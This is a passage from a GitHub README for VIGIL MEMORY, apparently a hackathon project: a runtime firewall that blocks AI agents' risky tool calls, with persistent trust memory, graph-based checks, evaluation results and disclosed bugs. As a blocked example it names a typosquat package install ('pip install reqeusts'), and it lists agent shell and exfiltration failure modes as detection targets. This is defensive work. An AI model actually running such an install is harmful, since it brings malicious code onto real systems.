





# VIGIL MEMORY

**A runtime firewall for autonomous AI agents that remembers which agents are
banned across sessions, devices and process restarts.**

An agent caught installing the typosquat `reqeusts` is blocked. Kill every
process, start fresh, and it is *still* blocked — because trust is a database
row, not history replayed into a context window. Recall is a keyed lookup:
**~1 ms in-process, ~1-2.6 ms over the local HTTP service, ~260 ms on the
hosted split deployment**. No vectors, no embeddings, and no LLM call anywhere
on the enforcement path.

Delete the memory layer and the identical call is **ALLOWED**. That is not a
claim, it is a test that runs in 30 seconds — see [Verify in 3 minutes](#verify-in-3-minutes).

---

## For judges — everything, with line numbers

| Gate requirement | Where | Status |
|---|---|---|
| **Memory is on the critical path** | [`firewall.go:300`](pkg/query-service/vigil/firewall/firewall.go#L300) — before graph (352), cost (406), behaviour (456), model (509) | ✅ guarded by a test that fails the build if it regresses |
| **Cold-start recall in a fresh session** | `./demo/memory_demo.sh` — kills every process, recalls trust=10 in ~1.3 ms | ✅ |
| **Deletion test breaks the core function** | Comment [`firewall.go:295-350`](pkg/query-service/vigil/firewall/firewall.go#L295) + `:830`. Builds clean, session 2 flips **BLOCK → ALLOW** | ✅ executed, not described |
| **Memory read/write map, findable in 2 min** | [MEMORY.md §1](./MEMORY.md#1-where-memory-is-load-bearing--exact-fileline) — 5 read hops, 6 write hops, every one a `file:line` | ✅ |

| Rubric criterion | Evidence |
|---|---|
| **Memory load-bearing (40)** | Five live tiers in one database — HOT 1 / WARM 2 / COLD 35 / REFERENCE 3 / ARCHIVE 3. Progressive enforcement ladder 50 → PAUSE 30 → BLOCK 10 → archived, surviving restarts. [Deep audit](./DEEP_INTEGRATION_REPORT.md) |
| **Innovation (25)** | Trust-as-memory: the firewall's *second* stage, ahead of the graph and the model, so a repeat offender costs one local read instead of a graph query plus an LLM judgement |
| **Technical execution (20)** | 12 Go packages green offline with zero API keys, 60+ real commits, live deployment, three adversarial audits that downgraded their own earlier passes |
| **Pitch (15)** | `demo/demo.mp4` |
| **PMF (+10)** | [Waitlist](https://tally.so/r/XxPJAe). Design-partner slots deliberately left blank — see [MEMORY.md §8](./MEMORY.md) |

### Partner stacks — real work, verifiable on chain

| Stack | Artifact | Verify |
|---|---|---|
| **Base** — audit anchoring | `VigilAnchor` at [`0x03164E72ffEd3293350A9b66e40aF00E59645020`](https://sepolia.basescan.org/address/0x03164E72ffEd3293350A9b66e40aF00E59645020) on Base Sepolia | [First anchor tx](https://sepolia.basescan.org/tx/0x8fb2c862953d342ede8b2ab42e2701ff73e435859993769d480d160c8ee7d3a1) — status 1, block 45910360. `anchorCount` 6 |
| **Virtuals ACP** | Job evaluation live and memory-backed, [`pkg/acp/service.go:157`](pkg/acp/service.go#L157) | `curl -X POST https://vigil-cuy2.onrender.com/api/v1/vigil/acp/job` |

The anchored hash is the **real head of this repo's audit ledger** (355 events
at the time), and `verifyHead()` returns `true` for it and `false` for a
tampered claim. Sepolia, not mainnet — testnet transactions carry no economic
weight, and this repository says so everywhere rather than implying otherwise.

### Verify in 3 minutes

```bash
git clone https://github.com/notwen123/VIGIL-.git && cd VIGIL-

go test ./pkg/query-service/vigil/... ./pkg/acp/...   # 12 packages, offline, no keys
./demo/memory_demo.sh                                 # the gate: kill, restart, still blocked
```

The demo parses its own output and **exits non-zero** if session 2 fails to
block or the memory-less run fails to allow. It cannot pass by narrating.

### Live

| | |
|---|---|
| Dashboard | https://vigil-sibyl-memory.vercel.app/ |
| API | https://vigil-cuy2.onrender.com |
| Memory service | https://vigil-sibyl-memory.onrender.com/docs |
| Source | https://github.com/notwen123/VIGIL- |
| Waitlist | https://tally.so/r/XxPJAe |

```bash
# a banned agent, refused from memory, no LLM
curl -sX POST https://vigil-cuy2.onrender.com/api/v1/vigil/acp/job \
  -H 'Content-Type: application/json' \
  -d '{"job_id":"1","buyer_agent_id":"trading-agent-alpha","requested_tool":"run_command"}'
```

### What is *not* done — stated, not hidden

- **Base mainnet.** Signer holds 0 ETH there. Sepolia only.
- **Virtuals on-chain registration.** The agent's ERC-4337 smart account has no
  code deployed on either chain, so `/api/v1/vigil/acp/status` reports
  `identity_configured: true, registered: false`. It is verified by asking the
  chain, not by reading an environment variable, and flips on its own once
  that account is deployed.
- **Design partners.** Zero. Naming any would be fabricated evidence.
- **ARCHIVE tier** was unreachable until it was found and fixed mid-audit; the
  fix exposed a worse bug where archiving *un-banned* the agent. Both are
  fixed, tested, and written up rather than quietly patched.

Three independent audits are in the repository, including the ones that
**failed**: [DEEP_INTEGRATION_REPORT.md](./DEEP_INTEGRATION_REPORT.md),
[FINAL_AUDIT_DONE.md](./FINAL_AUDIT_DONE.md), [AUDIT_REPORT.md](./AUDIT_REPORT.md).

---

**Licensing:** original VIGIL MEMORY code (`pkg/query-service/vigil/`,
`pkg/acp/`, `services/`) is MIT — see [LICENSE.MIT](./LICENSE.MIT). The
inherited SigNoz fork remains Apache-2.0 — see [LICENSE](./LICENSE). The root
licence is not changed, because that code is not ours to relicense. Both are
OSI-approved.

---


# VIGIL

<p align="center">
  <strong>THE RUNTIME FIREWALL FOR AUTONOMOUS AI AGENTS</strong>
</p>

<p align="center">
  <em>Observe. Reason. Enforce.</em>
</p>

<p align="center">
  <a href="https://vigil-sibyl-memory.vercel.app/">Live Dashboard</a> ·
  <a href="https://vigil-cuy2.onrender.com/">API</a> ·
  <a href="https://github.com/notwen123/VIGIL-">Source</a>
</p>

<p align="center">


</p>

---

## 60-Second Summary

Autonomous AI agents are becoming capable of executing tools, modifying files, calling APIs, and operating for long periods without human approval at every step.

That creates a new infrastructure problem:

> **Who controls what an autonomous agent is allowed to do at runtime?**

**VIGIL** is a runtime governance control plane that sits between an AI agent and its tools.

It evaluates every governed action across:

**Intent · Policy · Cost · Behavior · Security**

and makes a runtime decision:

**ALLOW · PAUSE · BLOCK · FALLBACK**

When deterministic rules cannot confidently resolve an action, VIGIL escalates the decision to specialized models through **Featherless**.

### The key idea

> **Featherless provides the intelligence layer. VIGIL turns model diversity into runtime control.**

---

# Why This Exists

AI agents are moving from generating answers to **taking actions**.

An agent can now:

* read and modify files;
* execute commands;
* access repositories;
* call APIs;
* use MCP tools;
* perform long-running workflows;
* repeatedly call tools without human intervention.

The failure mode is no longer only:

> “The model generated a wrong answer.”

It is increasingly:

> **“The model generated a sequence of actions that should never have executed.”**

Examples:

```text
Infinite tool loop
        ↓
Runaway inference
        ↓
Budget exhaustion
        ↓
Unexpected shell execution
        ↓
Unauthorized network access
        ↓
Policy violation
        ↓
Sensitive-data exposure
        ↓
Agent continues operating anyway
```

Traditional observability tells teams what happened.

Static policy tells teams what should be allowed.

**Autonomous systems need a runtime layer that decides what happens next.**

---

# Why Now

The agent ecosystem is moving quickly toward persistent, autonomous execution.

Featherless itself has publicly identified problems around long-running agents, token/cost anxiety, shell and network access, sandboxing, persistence, and operational security. It is also building managed agent infrastructure around open models.

At the same time, Featherless currently exposes **43k+ open models**, including current families such as **Kimi-K3, GLM-5.2, and DeepSeek-V4**.

This creates a new opportunity:

> **Instead of using one model for everything, use the right model for the right governance decision.**

That is the architectural foundation of VIGIL.

---

# The Solution

VIGIL creates an enforceable boundary between:

```text
WHAT THE AGENT WANTS TO DO
              │
              ▼
       ┌─────────────┐
       │    VIGIL    │
       │  GOVERNANCE │
       └──────┬──────┘
              │
              ▼
WHAT THE AGENT IS ALLOWED TO DO
```

Every governed action can be evaluated against:

| Signal       | Question                                                       |
| ------------ | -------------------------------------------------------------- |
| **Intent**   | Is this action consistent with the agent's declared objective? |
| **Policy**   | Is this tool/capability explicitly permitted?                  |
| **Cost**     | Is the session within its economic boundary?                   |
| **Behavior** | Has the agent deviated from its normal execution pattern?      |
| **Security** | Does the action present elevated runtime risk?                 |

The output is explicit:

```text
ALLOW
PAUSE
BLOCK
FALLBACK
```

---

# The Featherless Advantage

## VIGIL is not simply "an app that calls an LLM."

Featherless is part of the runtime decision architecture.

The current Featherless catalog contains **43k+ models**, making specialization and model routing practical at the infrastructure layer.

VIGIL uses that model diversity for **governance**.

### Example

A simple tool call:

```text
read_file
      ↓
deterministic checks
      ↓
ALLOW
```

An ambiguous action:

```text
unknown shell command
      ↓
Featherless fast risk model
      ↓
UNCERTAIN
      ↓
Featherless reasoning model
      ↓
HIGH RISK
      ↓
BLOCK
```

A high-risk event can be escalated further:

```text
Threat detected
      ↓
Reasoning model
      ↓
Security critic
      ↓
Decision validator
      ↓
BLOCK / PAUSE
```

### The result

> **Model abundance becomes a runtime security primitive.**

### Getting the most out of one Featherless key

The routing above isn't just a governance shape — it's a cost shape. Most tool
calls are clearly safe and never leave the deterministic layer, so they never
touch Featherless at all. Of the ones that escalate, the fast triage model
(Kimi-K3) handles the Suspicious and Uncertain tiers — the bulk of what
actually escalates — and the strongest, priciest model (GLM-5.2) is reserved
for calls the reasoner has already flagged HIGH or CRITICAL. Fallback between
roles is downward-only, so a transient hiccup on the expensive model degrades
to the cheap one, never the other way around, and the whole escalation stage
runs inside a fixed retry and time budget — worst case per call is a small,
bounded multiple of one request, not an open-ended bill.

---

# Featherless-Powered Adaptive Inference



### Why this matters

The system does not blindly invoke an expensive model for every tool call.

Instead:

**Deterministic first → semantic reasoning when necessary → deeper review only when justified.**

That provides a deliberate tradeoff between:

**security · latency · inference cost · reasoning quality**

### Three real shipped vendors, not one

Featherless is the hackathon's compute partner and stays first in priority,
but the product cannot go deterministic-only for however long a Featherless
credential takes to arrive. NVIDIA and Gemini ship as real, live vendors too
(`pkg/query-service/vigil/llm/chain.go`) — not test-only stand-ins, that role
belongs to Groq alone (`llm/live_test.go`, never in the vendor table).
`Chain.Complete` tries each configured vendor in priority order and retires
one only once it actually refuses (expired credit, revoked key), so today —
with NVIDIA and Gemini credentials configured and no Featherless key yet —
the chain runs `nvidia→gemini`, confirmed live via the real startup probe:

```
INFO vigil: inference configured provider=nvidia→gemini roles="[FAST_RISK_CLASSIFIER POLICY_REASONER DEEP_SECURITY_REVIEWER]"
INFO llm: vendor reachable vendor=nvidia latency=434ms
INFO llm: vendor reachable vendor=gemini latency=1.114s
```

Adding a Featherless key later slots it back in as the preferred vendor with
no code change — `TestLiveChainFromEnv` (`llm/live_test.go`) exercises the
exact `ChainFromEnv` constructor the server uses, not a hand-built config, so
this is proof of the real code path, not a simulated one.

**Real findings from configuring each vendor, verified with raw `curl`
before picking any model ID:**

- **NVIDIA's `/v1/models` catalog lists models this account cannot actually
  invoke.** `nemotron-4-340b-instruct` and `nemotron-ultra-253b` both 404'd
  with `"Function ... Not found for account"` despite being listed. Every
  model ID actually shipped (`meta/llama-3.1-8b-instruct`,
  `nvidia/llama-3.3-nemotron-super-49b-v1`,
  `nvidia/nemotron-3-ultra-550b-a55b`) was individually confirmed with a
  real completion, not picked from the catalog on trust.
- **Gemini's free-tier key blocks `-pro` models outright**, not just
  rate-limits them — a `-pro` request returns `429 RESOURCE_EXHAUSTED` with
  an explicitly stated free-tier limit of **0** requests/day.
- **Plain Gemini `-flash` models (3.5, 3.6) spend hidden "thinking" tokens
  before any visible content** — a `max_tokens=50` request came back with
  empty content and `finish_reason=length`, the tokens spent entirely on an
  invisible reasoning pass. `-flash-lite` has neither problem, confirmed
  with both a tiny ping and a structured JSON judge-shaped request, which is
  why it's used for all three roles on this key rather than a bigger model
  that would fail and silently fall back on every call.

---

# HydraDB — Graph-Native Runtime Intelligence

Featherless is the model layer, consulted when a decision is genuinely
uncertain. HydraDB sits *before* it: a managed graph + memory store that
auto-extracts entities and relationships from ingested text — no manual
schema, no Cypher, no embeddings to manage — and answers natural-language
questions with the actual graph paths behind the answer, not just retrieved
text.

Three collections, three questions the deterministic layer can't answer on
its own:

| Collection | Question asked | When |
|---|---|---|
| `enterprise` | "What policy applies to this call, and is it permitted?" | Declared intent is UNCERTAIN |
| `enterprise` | "Who does this share/send recipient resolve to — through whatever aliases the resolver merged — and does policy deny sharing with that entity type?" | Any share/send-shaped call, unconditionally |
| `code_graph` | "What's the transitive reverse-dependency closure and maintainer graph for this package? Is it a typosquat?" | Any install/exec-shaped call, unconditionally |
| `agent_memory` | "Has this behavioral pattern been seen before? What's normal?" | A behavioral or cost signal has already been raised |

**Featherless is the fallback, not the first move.** If the graph resolves
the question — a real extracted relationship, not a vector-similarity
guess — the decision is made without ever calling a model. Only when the
graph itself has nothing does the call escalate to Featherless. Every
decision this changes is logged with the literal `(entity)--[relation]-->
(entity)` paths HydraDB traversed, in the `graph_paths` field, so the
dashboard shows the graph's reasoning, not just its conclusion.

### What we lose without HydraDB

Every one of the checks above degrades gracefully to the pre-existing
deterministic/Featherless pipeline if HydraDB is unconfigured or
unreachable — that fallback path is what this whole product was already
built on. What's lost specifically: an uncertain intent verdict fails
closed to BLOCK instead of getting a graph-informed second opinion; an
install command loses the typosquat/blast-radius check entirely, not a
degraded version of it — that check doesn't run without a graph query, on
purpose; and a behavioral anomaly is judged on this session's history
alone, with no "has this actually happened before" cross-session context.

### Verified live, not asserted

Every claim above was exercised against the real HydraDB API, not assumed
from documentation (which — verified the hard way — disagreed with itself
across three different pages on method names before an empirical test
against a real key settled it):

- Real ingest → real async graph extraction → real query, round-tripped
  end to end (`pkg/query-service/vigil/hydra/hydra_test.go`).
- A firewall decision with **zero graph signal in the deterministic
  layer** — a plain `pip install reqeusts` — got BLOCKed at the
  `code_graph` stage from a real extracted `reqeusts --[is a typosquat
  of]--> requests` relationship, before any model was reachable
  (`firewall/hydra_integration_test.go`).
- The `/ontology` page surfaced the seeded identity resolution
  (`sam --[also known as]--> soham ratnaparkhi`), a contradictory
  document pair, and both trust-scored sources — extracted automatically
  from plain-English seed text, not hand-built graph structure.
- **Honest numbers, broken out by query shape, not one rounded-down
  average:** `mode=thinking` (the default this client used until it was
  switched) measured 2.5–5s per call — a deeper reasoning pass, paid on
  every query whether or not the question needed it. `mode=fast` with
  `graph_context=true` (what blast-radius/maintainer/typosquat use)
  measured 375ms–1s isolated, up to ~4–5s under concurrent load. Plain
  memory retrieval — `mode=fast`, `graph_context=false` — measured
  **~220–260ms**, genuinely close to HydraDB's own published "sub-200ms
  retrieval" claim, which is evidently made for that query shape, not
  the graph-context-enriched structural queries this integration relies
  on for blast radius. Different question, different cost; reporting
  both rather than letting one stand in for the other.

---

## Entity resolution and ontology (Track 01)

`scripts/ingest_enterprise.py` simulates a 500-document, 9-source enterprise
corpus (Slack, Gmail, Linear, Drive, HubSpot, Fireflies, GitHub, Jira,
Confluence) for a fictional company, "Northwind Signal" — the same
fictional-company pattern EnterpriseRAG-Bench uses for exactly this reason:
real enterprise exports aren't available, and simulated data must be labeled
as such, not passed off as real. A 3-stage resolver (deterministic email
match → heuristic name similarity → optional LLM-assist) proposes SAME_AS
merges with confidence and provenance, ingested as plain English for HydraDB
to extract as real graph edges — the graph is never hand-built.

**Real numbers from an actual run** (`--docs 500 --seed 42`, deterministic —
not the spec's example 127/23/15):

- 500 documents ingested across 9 sources, 66 contradiction pairs planted
- 35 distinct name variants found, **54 alias pairs resolved** — 35
  deterministic (email match), 19 heuristic (name similarity), 0 llm-assist
  needed (heuristic confidence was sufficient for every remaining pair on
  this corpus)
- **15/15 correct abstentions** on questions about invented names that never
  appear anywhere in the corpus (measured by literal name-absence in
  retrieved chunk content — see the bug below on why relevancy_score can't
  be used for this)
- Live firewall proof, not a stub: "share the export with Jordan" **BLOCKs**
  (Jordan Blake resolves to the corpus's one Customer contact), "share the
  export with Sam" **ALLOWs** (Sam resolves to Soham Ratnaparkhi, an
  Employee) — `firewall/entity_policy_live_test.go`, gated on a real
  `VIGIL_HYDRADB_API_KEY` the same way `llm/live_test.go` gates on a real
  model key

### Real bugs found by testing against the live graph, not a stub

A stub test proves the mechanism works against data shaped the way you
expect it to be shaped. These only surfaced by ingesting real text and
reading back what HydraDB actually extracted from it:

- **Compound questions lose to the ranker.** Asking "what are this person's
  aliases, and what entity type/policy applies to them" in one query let
  the (far more numerous) generic policy documents outrank the one
  alias-identity triplet in HydraDB's retrieval — `AliasPaths` came back
  empty even though the SAME_AS edge existed in the graph. Confirmed by
  asking the identical alias-only question in isolation, which reliably
  surfaced it. Fixed by splitting every compound profile question
  (`GetEntityProfile`, `hydra.go`) into single-purpose questions.
- **Alias-shaped queries retrieve everyone's aliases, not just the one
  asked about.** A naive "grab every 'also known as' triplet in the result"
  pulled in other people's SAME_AS edges too, since every identity
  statement in the corpus is structurally similar text. Fixed by requiring
  a triplet's subject or object to actually name the queried entity before
  its counterpart counts as one of its aliases (`EntityProfile.Aliases()`).
- **`entity_type` was dead metadata.** The resolver's cast list tagged one
  person as a Customer, but nothing ever turned that into ingested text —
  the graph had generic "policy applies to entity type Customer" documents
  but no fact linking any specific person to being one, so every name
  queried got flagged identically. Fixed by ingesting one explicit
  `"{name} is a {type} of {company}"` statement per person.
- **"denies" is not a substring of "denied."** HydraDB's real extracted
  predicate for a policy denial is the present-tense `"denies"`
  (`policy no-pii-exfil --[denies]--> customer personal data export`); the
  deny-keyword check — in both the new entity-policy stage and the
  already-shipped `hydraIntentCheck` — was checking for `"denied"` and
  `"forbid"`, silently never matching real graph output. This one caused an
  actual false ALLOW in the live test before being caught and fixed.
- **`relevancy_score` is a rank-order signal, not an absolute relevance
  gate.** A query about a name that appears nowhere in the corpus still
  comes back with chunks scored 0.75–0.85 — HydraDB returns its best
  available matches ranked against each other, always. Correct abstention
  detection checks whether the invented name appears anywhere in the
  retrieved chunk content, not the score attached to it.

---

## Memory and context retrieval (Track 03)

`scripts/ingest_memory.py` ingests real conversation sessions from
[LongMemEval](https://github.com/xiaowu0162/LongMemEval) (ICLR 2025) —
specifically the community-maintained
[`longmemeval-cleaned`](https://huggingface.co/datasets/xiaowu0162/longmemeval-cleaned)
oracle split, which keeps only the sessions relevant to each of 500 real
questions and drops the padding "haystack" sessions the full benchmark adds
to reach ~115k tokens/question. That's a disclosed scope reduction, not the
full benchmark: ingesting the full haystack for even one question means
hundreds of sessions of filler conversation with no bearing on any answer.
~35-40 real sessions are sampled across all six of the benchmark's real
question types (single-session-user/assistant/preference, knowledge-update,
temporal-reasoning, multi-session), each ingested into `agent_memory` as
`source_id=<session_id>` with its real date. A disjoint set of sessions is
deliberately held out — never ingested — so abstention can be tested against
questions whose answer genuinely is not in the graph, not just "wasn't
retrieved well."

For knowledge-update questions, a second resolver pass emits one plain-
English `FACT_UPDATE` sentence naming both the earlier and later session,
both dates, and both values — the same "the graph is extracted from text,
never hand-built" discipline as Track 01's SAME_AS statements. The prior
value is a heuristic guess (the benchmark records only the current answer,
not its full history) and is labeled as a guess in the emitted text itself.

`hydra.GetTemporalFact` answers "what is X now" and "what changed" as two
separate questions against `agent_memory` (`pkg/query-service/vigil/hydra/hydra.go`),
exposed at `/api/v1/memory/fact?subject=X` and rendered on `/memory-timeline`
as a GitHub-blame-style fact history, with an explicit `NOT_IN_HISTORY`
abstention state shown in the UI, not silently omitted.

### Real bugs and findings from testing against the live graph

- **HydraDB's real ingest limit is token-based, not byte-based.** A real
  session (quote- and newline-heavy, ~19k characters) got a 413; the actual
  error was `"memory_tokens payload too large: request cost 3900 exceeds
  the per-request per_sec limit of 1000."` Bisected with synthetic payloads
  of known byte size to find this — plain repeated characters up to 30KB
  ingested fine, because they tokenize far more cheaply than natural
  English. Fixed by chunking each session to ~3200 characters (safely under
  1000 tokens even for dense text) rather than ingesting one blob per
  session.
- **The rate limit is tokens/sec, not requests/sec.** A fixed `--rps 2.0`
  pace still triggered 429s once per-chunk token cost varied — 112 of 240
  chunks failed on the first real run. Fixed with retry-with-backoff on 429
  and a slower default pace, not just a lower request count.
- **The task's proposed abstention check — "`graph_context` empty OR
  confidence < 0.7" — does not discriminate, tested directly.** A query
  about a fabricated subject ("Zorblaxian the space wizard from planet
  Neptune-9", never ingested anywhere) still returned 10 chunks scored
  0.87–0.90 and 15 real graph triplets — neither half of the proposed check
  would have triggered. The same finding as Track 01's abstention
  self-check, now confirmed independently on `agent_memory`. What actually
  discriminates: whether the subject's own keywords appear anywhere in the
  retrieved content (`hydra.QueryResult.Abstains`) — a fabricated subject's
  name never appears in real content, however confidently the ranker
  scored its best (irrelevant) guesses.
- **Behavioral-pattern queries lose to decision-log noise on a shared
  collection.** `agent_memory` also holds every firewall decision this
  product has ever logged (`hydraLogMemory`), so a literal "has this
  pattern been seen before" query about a freshly-ingested anomalous-DNA
  baseline got crowded out by generic historical "search_code is permitted
  by declared intent" log lines. Fixed by rephrasing the query to echo the
  baseline's own vocabulary ("is this pattern **anomalous**...") rather
  than a neutral "has this been seen" — confirmed live, and it also fixed
  `hydraBehaviorCheck`'s query to describe the real accumulated tool-call
  sequence (`search_code x19, network_request x3`) instead of just the
  abstract signal names that triggered it.
- **`chunk_content`'s shape depends on ingest type, and one code path
  assumed only one of them.** A `knowledge`-type source's `chunk_content`
  comes back JSON-wrapped (`{"content":{"text":"..."}}`); a `memory`-type
  source's comes back as the raw text directly, no JSON at all. A retrieved
  FACT_UPDATE chunk ranked #1 for its own matching query but produced
  nothing from `hydra.QueryResult.ChunkTexts()`, because that method only
  handled the wrapped shape and silently dropped the unwrapped one. Fixed
  to try the wrapped shape first and fall back to the raw string.
- **A single matching keyword is not enough to call a multi-word subject
  "found."** `Abstains` first only required one keyword hit; a query for
  "bedroom wall paint color" (never ingested) matched "paint" and "colors"
  purely by coincidence against an unrelated real session about flower-
  painting technique, and answered instead of abstaining. Fixed to require
  a majority of the subject's keywords, not just one.

Real evaluation numbers from `scripts/eval_memory.py`, run against the
real ingested data — retrieval recall (does the fact's own answer terms
actually surface in what HydraDB returned for the real question), not a
full LLM-graded QA pipeline, and explicitly not the spec's example numbers:

| Category | Recall | n (skipped) |
|---|---|---|
| single-session-user | 100.00% | 4 (0) |
| single-session-assistant | 100.00% | 4 (0) |
| single-session-preference | 100.00% | 4 (0) |
| knowledge-update | 100.00% | 2 (2) |
| temporal-reasoning | 100.00% | 4 (0) |
| multi-session | 50.00% | 2 (2) |
| **Overall** | **95.00%** | **20 scored** |

**Abstention accuracy: 56.25% (9/16)** on held-out questions whose sessions
were never ingested. Reported as measured, not adjusted toward the spec's
example 95% — a keyword-majority heuristic genuinely does not reach that on
real, diverse natural-language questions; some held-out questions share
enough real vocabulary with unrelated ingested content (the same class of
false-negative the fix above addresses, on a smaller scale than that one
fix could fully close) that the graph answers instead of abstaining. This
is the honest number the current heuristic gets, not the number the spec
